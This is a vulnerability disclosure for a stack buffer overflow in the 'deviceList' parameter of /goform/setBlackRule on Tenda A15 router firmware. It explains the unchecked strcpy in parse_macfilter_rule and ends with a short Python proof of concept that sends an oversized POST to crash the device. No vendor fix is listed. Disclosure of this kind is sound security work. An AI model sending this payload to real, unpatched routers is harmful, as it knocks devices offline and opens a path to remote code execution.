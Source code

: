 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule

![1703731028904](image/setBlackRule.zh-cn/1703731028904.png)

The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731130516](image/setBlackRule.zh-cn/1703731130516.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
